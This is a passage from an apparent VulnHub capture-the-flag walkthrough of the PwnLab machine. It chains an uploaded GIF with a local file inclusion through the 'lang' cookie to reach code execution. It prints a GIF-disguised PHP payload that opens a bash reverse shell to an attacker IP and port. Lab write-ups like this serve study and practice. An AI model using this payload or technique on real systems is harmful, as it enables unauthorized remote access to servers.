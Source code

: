 In order to ensure that code execution works, we can try to include the image we uploaded by setting `lang cookie` to `../upload/360ae33efb11f1be532d46e9daf60828.gif`:

![lang cookie](/assets/img/vulnhub/linux/pwnlab/lang-ping.png)

And it worked, **pwnlab** pinged us (`tcpdump` as proof):

```bash
$ tcpdump icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:38:56.995815 IP pwnlab > kali: ICMP echo request, id 1222, seq 1, length 64
12:38:56.995833 IP kali > pwnlab: ICMP echo reply, id 1222, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

### Final payload

Our final file:

```
GIF89;  
<?php exec("bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'"); ?>
```

**lang** cookie is now equal to:

`../upload/dfbb431572245b404f7db316d70bfc70.gif`

First I thought it didn't worked, but after pressing _"Go back one page"_, I got a shell:

![reverse shell](/assets/img/vulnhub/linux/pwnlab/reverse-shell.png)
